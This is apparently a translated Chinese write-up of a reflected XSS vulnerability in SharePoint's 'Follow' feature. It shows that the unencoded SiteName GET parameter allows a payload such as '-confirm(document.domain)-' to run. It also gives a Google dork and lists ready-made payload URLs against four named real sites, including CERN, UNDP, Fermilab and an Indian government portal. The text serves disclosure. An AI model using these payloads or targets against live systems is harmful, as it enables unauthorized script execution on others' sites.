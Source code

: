 [![](https://p1.ssl.qhimg.com/t01ceb130c9c275f779.png)](https://p1.ssl.qhimg.com/t01ceb130c9c275f779.png)

“Follow”功能作为电子邮件内容的一部分，现在可以以GET请求的形式提供。当时的网址如下所示：

https://bbmsft.sharepoint.com/?FollowSite=1&amp;SiteName=&lt;AnySiteNameGoesHere&gt;

该URL具有两个GET参数，即FollowSite=1和SiteName=&lt;AnySiteNameGoesHere&gt;。其中FollowSite参数是个布尔值，可以为0或者1，0表示不跟踪，1表示跟踪，类似一个标志位。而SiteName参数就是我们感兴趣的地方了。如下所示，其值出现在了脚本上下文中（注意关键词ReflectionHere）。在实际场景中，这个值将是您要Follow的网站的名称。



```
```&amp;amp;lt;script type=&amp;amp;quot;text/javascript&amp;amp;quot;&amp;amp;gt;
&lt;script type="text/javascript"&gt;
//&lt;![CDATA[
...
SP.SOD.executeFunc('followingcommon.js', 'FollowSiteFromEmail', function() `{` FollowSiteFromEmail('ReflectionHere'); `}`);
...
//]]&gt;
&lt;/script&gt;
```
```

如上述代码所示，开发人员使用单引号将ReflectionHere引起来了。经过测试，我发现一些危险的特殊字符如'、&lt;、&gt; 和 /都没有被编码。简单的说，像'-confirm(document.domain)'这样的XSS Payload就能够起作用。此外，我注意到，只有在URL中存在GET参数（FollowSite和SiteName）的情况下，上述内联JavaScript代码片段才会出现或成为DOM的一部分。屏幕截图如下。

[![](https://p1.ssl.qhimg.com/t01ffa771b1f797e227.png)](https://p1.ssl.qhimg.com/t01ffa771b1f797e227.png)

我在测试中用到的一个简单的PoC如下图所示：

[![](https://p0.ssl.qhimg.com/t0121064d98d1b7266f.png)](https://p0.ssl.qhimg.com/t0121064d98d1b7266f.png)



**公网情况**

这个XSS漏洞看起来很简单，因为它只需要一个SharePoint网址，并添加两个GET参数（其中一个设置为XSS的Payload）即可，如：

http[s]://&lt;SHAREPOINT URL&gt;?FollowSite=0&amp;SiteName='-confirm(document.domain)-'

在Google中以`inurl：SitePages/Home.aspx?`为关键词搜索SharePoint主页，能够搜到19000多个结果。SharePoint站点的主页具有通用格式，即：`http(s)://&lt;Any SharePoint URL&gt;/SitePages/Home.aspx`。下面给出了我能从Google Dorks快速识别出来的一些值得注意的存在漏洞的站点。如果你也拥有SharePoint站点，并且可以在页面上看到“ Follow ”按钮，那么你的站点很有可能也存在漏洞。请注意，以下示例（政府网站，机构，大学和学院）并未包含那些内部部署版的SharePoint。

1. [https://espace2013.cern.ch/ls1planning/sitepages/home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://espace2013.cern.ch/ls1planning/sitepages/home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

2. [https://info.undp.org/gssu/onlinetools/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://info.undp.org/gssu/onlinetools/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

3. [http://www.karnataka.gov.in/Pages/kn.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](http://www.karnataka.gov.in/Pages/kn.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

4. [https://web.fnal.gov/organization/Finance/business/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://web.fnal.gov/organization/Finance/business/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

```